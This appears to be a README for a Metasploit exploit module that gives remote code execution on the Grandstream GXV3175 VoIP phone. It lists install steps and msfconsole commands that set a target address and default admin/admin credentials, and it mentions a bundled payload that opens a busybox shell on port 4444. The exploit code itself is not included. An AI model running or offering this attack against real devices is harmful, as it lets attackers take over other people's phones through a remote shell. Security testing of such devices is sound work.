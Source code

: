 Remote code execution for Grandstream GXV3175 VOIP phone.

===  INSTALLATION ===

copy the files to the same directory structure under the metasploit top level dir

=== USE ===

in msfconsole

---

use exploits/linux/http/grandstream_gxv3175_cmd_exec

set RHOST 192.168.0.1

set USERNAME & PASSWORD if required (defaults set to admin / admin)

run

--- 

Also comes with a (default) custom payload to spawn a busybox shell on port 4444

